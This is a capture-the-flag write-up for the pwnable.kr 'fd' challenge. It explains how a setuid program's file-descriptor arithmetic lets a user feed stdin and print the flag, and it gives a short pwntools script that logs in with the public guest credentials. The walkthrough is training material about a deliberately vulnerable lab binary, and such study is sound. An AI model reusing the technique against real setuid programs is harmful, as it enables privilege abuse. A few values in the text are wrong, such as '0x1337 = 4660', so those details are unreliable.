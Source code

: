 # fd Writeup

## Challenge infos

```text
Mommy! what is a file descriptor in Linux?

* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link:
https://youtu.be/971eZhMHQQw

ssh fd@pwnable.kr -p2222 (pw:guest)
```

## Server content

```text
$ sshpass -p guest ssh fd@pwnable.kr -p2222
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|


- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Tue Apr  9 04:32:14 2019 from 203.249.127.35
fd@ubuntu:~$ ls -la
total 40
drwxr-x---  5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 93 root   root 4096 Oct 10 22:56 ..
d---------  2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---  1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--  1 root   root  418 Jun 11  2014 fd.c
-r--r-----  1 fd_pwn root   50 Jun 11  2014 flag
-rw-------  1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x  2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x  2 root   root 4096 Oct 23  2016 .pwntools-cache
fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

fd@ubuntu:~$
```
## Exploitation objective
* The ssh user is fd
* The flag file is readable only by the group fd_pwn or the user root
* The fd binary is executable by the fd user and is suid to its group fd_pwn

This means that if we pwn the fd executable we can gain read access to the flag file via group fd_pwn.

The pwn executable is certainly compiled from the fd.c source code, let's have a look.

## C code analysis
```c
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
```

* We need to call the program with a number as first argument : ```./fd [n]```


```c
        int fd = atoi( argv[1] ) - 0x1234;
```

* The ```[n]``` argument is used to define the ```fd``` variabl by substracting ```0x1234``` (hexadecimal number 4660) from it

```c
        len = read(fd, buf, 32);
```

* The ```fd``` variable is used as the file descriptor to read a string to the buffer ```buf```

```c
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
```

* If the content of the buffer ```buf``` is equal to ```"LETMEWIN\n"``` (```\n``` denotes newline character) the executable calls ```system()``` to output the content of ```flag``` with ```cat```, this is our target

## File descriptor understanding

The ```fd``` variable is a file descriptor, an unique value linking to an open stream for reading or writing

There is 3 defined files descriptors when the program is started and we can define new ones with a call to ```open()```

The 3 already open ones are :
* ```0``` : refers to ```stdin```, the standard input stream, read only
* ```1``` : refers to ```stdout```, the standard output stream, write only
* ```2``` : refers to ```stderr```, the standard error stream, write only

## Exploitation

* There is no call to ```open()``` in the program but since we can manipulate ```fd``` through ```[n]``` we can set it to ```0``` in order to read from ```stdin```

* If we set ```[n]``` to ```0x1337``` = ```4660``` we can call the program with ```./fd 4660```, forcing it to read the buffer frmo ```stdin```

* We the input ```LETMEWIN``` and press ```Enter``` to send a newline character ```\n```

* The check is then passed and the ```flag``` is output

* ```PWN```

## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
argv_1 = 0x1234
```
* Set the ```argv_1``` variable to ```0x1234``` (Python can understand hexadecimal values by starting a number with ```0x``` and converts them to decimal)
```python
# io = process(['./fd', str(argv_1)])

server = ssh('fd', 'pwnable.kr', 2222, 'guest')
io = server.process(['./fd', str(argv_1)])
```
* During testing the ```io``` is set to the local ```./fd``` executable downloaded by the setup script
* After the exploit is working we can use it on the server by ssh-ing to it before setting ```io``` to the remote ```.\fd``` executable
* In both cases, pass the ```argv_1``` argument
```python
io.sendline('LETMEWIN')

result = io.recvall()

io.close()
server.close()

print(result)
```
* Send the ```LETMEWIN``` line with a newline character (with ```sendline()```)
* Print the ```result``` which is the ```flag```
* ```PWN```
